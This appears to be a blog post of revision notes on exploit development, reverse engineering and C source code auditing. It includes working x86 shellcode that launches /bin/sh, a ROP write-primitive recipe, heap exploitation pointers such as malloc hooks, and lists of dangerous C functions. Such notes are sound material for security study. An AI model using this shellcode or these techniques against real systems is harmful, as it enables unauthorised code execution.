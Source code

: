 ```yaml
---
layout: post
categories: Revision
---
```


## Exploitation
[Linux Syscall Reference](http://syscalls.kernelgrok.com/)

### Shellcode

**Launch /bin/sh** (no null bytes)
`25 bytes`

```nasm
xor eax, eax
push eax
push 0x68732f2f    ; //sh
push 0x6e69622f    ; /bin
mov ebx, esp
push eax

push SYS_execve
pop eax
xor ecx, ecx
xor edx, edx

int 0x80
```
<br>
**Read/Write to FD**
`56 bytes`
```nasm
; create 16 byte buffer on stack
push 0x61616161
push 0x61616161
push 0x61616161
push 0x61616161

; Read
mov eax, 0x03
mov ebx, 1000 ; fd
mov ecx, esp  ; buf
mov edx, 20   ; count

int 0x80

; Write
mov eax, 0x04
mov ebx, 1   
mov edx, 20  

int 0x80
```
### ROP
**Write Primative**

At some point, you may need to write to somewhere in memory, and then reference this address (e.g. if you need a pointer to a string).
1. Find a `rw` memory segment (`objdump -t binary | grep bss`)
2. Find a gadget of the form `mov [e?x], e?x; ret;`
    * This gadget can be used to write data from second register into the address pointer to in the first register

### Heap
**Exploit Checklist**

- [ ] Use After Free
- [ ] Double Free
- [ ] Heap Buffer Overflow
- [ ] Use of Uninitialised Memory

**Controlling Malloc Behaviour**
* `malloc_hook` and `free_hook` are function pointers that can be changed at runtime (i.e. if you want to use your own malloc implementation)

```c
/* __malloc_hook */
void *function (size_t size, const void *caller)

/* __free_hook */
void function (void *ptr, const void *caller)
```
<br>

#### Heap Data Structures
```c
struct malloc_chunk {

  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;                /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize;       /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```
<br>
_Visualisation:_
* Note: the 'Red' region is the data chunk. When the chunk is allocated, the data will overwrite this region

![]({{ site.baseurl }}/assets/images/chunk-freed-CS.png)

<small>Source: [Azeria Labs](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)</small>

--------------------------------------------------------------------------------
## Reverse Engineering
### Data and Control Patterns
**Arrays & Structs**
* The size of offset constants and register usage can provide information about the size of the data structures in the array/struct.
* Structs are usually accessed via an offset into the struct (e.g. `[eax+4h]`). The first item in the struct will just be at the address of the struct

**Modular Arithmetic**

_Calculating the modulo from the magic number:_

1. m = 2<sup>32</sup> / magic number
1. If the line `sar edx, arg` exists, multiply m by 2<sup>arg</sup>

_Examples:_

| Modulo | Assembly | 2<sup>32</sup> / Magic Number
| --- | --- | --- |
| 6 | ![]({{ site.baseurl }}/assets/images/modulo/6.png) | 5.9999...
| 7 | ![]({{ site.baseurl }}/assets/images/modulo/7.png) | 1.7499...
| 9 | ![]({{ site.baseurl }}/assets/images/modulo/9.png) | 4.4999...

### x86 Architecture
#### Registers
![]({{ site.baseurl }}/assets/images/x86-registers.png)
<small>Source: [flint.cs.yale.edu/cs421/papers/x86-asm/asm.html](http://flint.cs.yale.edu/cs421/papers/x86-asm/asm.html)</small>

#### Flags
_Subset of relevant flags_

| Flag | Purpose |
| --- | --- |
| `CF` | Carry |
| `PF` | Parity |
| `ZF` | Zero |
| `SF` | Sign |

#### Instructions
_Frequent, Obscure and confusing instructions_

| Instruction | Purpose |
| --- | --- |
| [`cmp`](https://c9x.me/x86/html/file_module_x86_id_35.html) a1, a2 | Result = a2 - a1 (so if equal, zero flag set)|
| [`test`](https://c9x.me/x86/html/file_module_x86_id_315.html) a1, a2 | a1 AND a2 (so if equal, result is NOT zero - zero flag clear). Commonly used to test whether a value is zero (since `test a, a` sets ZF iff a = 0)|
| [`imul`](https://c9x.me/x86/html/file_module_x86_id_138.html) a1 | _Signed Multiply_. With one operand, multiplies a1 with the value in EAX. Result is stored in EDX:EAX. |
| `lea` & `mov` with `[]` dereferencing | The square brackets are equivalent to dereferencing a pointer (i.e. `*`). So `mov eax, [ebx]` will move the value pointed to by the address ebx into eax). Common arithmetic trick: `lea eax, [ebx*4]` will move the result of the ebx*4 expression into eax. |
| [`sar`](https://c9x.me/x86/html/file_module_x86_id_285.html) a1 | Part of the 'Shift' family. _Shift Arithmetic Right_. SAR sets the most significant bit to correspond to the sign bit of the original value. |

--------------------------------------------------------------------------------
## Source Code Auditing
### Bug Classification
* Bad API Usage
    * Incorrect arguments
        * E.g. mixing up arguments for `memset()` resulting in writing to 0 memory locations!
    * Use of Dangerous Functions
        * `gets()` is just bad (buffer overflow)
        * `strcpy()` and `strcat()` are just bad (buffer overflow)
        * `strncpy()` does not add a null terminator
        * `printf()` format strings
* Logic Bugs
    * Paths in the program that lead to privileged access of some kind that were unintended
* Data Types and Type ~Conversion~ Confusion
    * Integer Overflows
    * Implicit Type Conversions resulting in overflow/underflow
    * Pointer Arithmetic
* Race Conditions
* Heap Vulnerabilities:
    * Use After Free
    * Malloc return value not checked (allocate/use null!)
    * Double Frees

